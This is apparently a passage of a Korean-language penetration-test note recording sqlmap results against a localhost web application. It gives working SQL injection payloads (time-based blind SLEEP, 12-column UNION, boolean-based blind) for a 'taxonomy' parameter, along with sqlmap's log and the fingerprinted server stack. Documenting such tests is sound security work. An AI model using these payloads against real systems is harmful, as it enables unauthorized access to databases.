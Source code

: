     
    2-2 Time-based Blind
    
    - 응답 시간을 조작하여 데이터베이스와의 상호작용 여부를 확인
        
        ```sql
        taxonomy=category') AND (SELECT 7162 FROM (SELECT(SLEEP(5)))HjbH) AND ('BQsP'='BQsP
        ```
        
    
    2-3 UNION Query
    
    - `UNION` 키워드를 활용하여 데이터를 직접 가져오는 방식
        
        ```sql
        taxonomy=category') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b6b7671,0x55496166614547434753557456504468504d536b5870506e51504b4b634c6a674944716c626d4366,0x7178787171)-- -
        ```
        
3. 추가 정보
    - DBMS
        - 백엔드 데이터베이스는 **MySQL**이고, 버전은 **5.0.12 이상**
    - 웹 서버 운영 체제
        - 서버는 **Linux Debian**에서 실행
    - 웹 애플리케이션 기술
        - **PHP 8.2.26**과 **Apache 2.4.62** 사용
    - HTTP 상태 코드
        - 테스트 중 **500 (Internal Server Error)**가 8번 발생하였다.
        - 서버가 일부 페이로드를 처리하는 동안 발생한 것으로 보인다.
4. 결과 저장 위치
    - 탐지된 결과는 로컬 파일로 저장되었다.
        
        ```bash
        C:\Users\alstn\AppData\Local\sqlmap\output\localhost
        ```
        
    - 저장된 파일에는 탐지된 페이로드와 로그가 포함되어 있다.
        
        ```
        sqlmap identified the following injection point(s) with a total of 87 HTTP(s) requests:
        ---
        Parameter: taxonomy (GET)
            Type: boolean-based blind
            Title: OR boolean-based blind - WHERE or HAVING clause
            Payload: taxonomy=-8184') OR 8534=8534 AND ('vMOi'='vMOi
        
            Type: time-based blind
            Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
            Payload: taxonomy=category') AND (SELECT 7162 FROM (SELECT(SLEEP(5)))HjbH) AND ('BQsP'='BQsP
        
            Type: UNION query
            Title: Generic UNION query (NULL) - 12 columns
            Payload: taxonomy=category') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b6b7671,0x55496166614547434753557456504468504d536b5870506e51504b4b634c6a674944716c626d4366,0x7178787171)-- -
        ---
        web server operating system: Linux Debian
        web application technology: PHP 8.2.26, Apache 2.4.62
        back-end DBMS: MySQL >= 5.0.12
        ```
        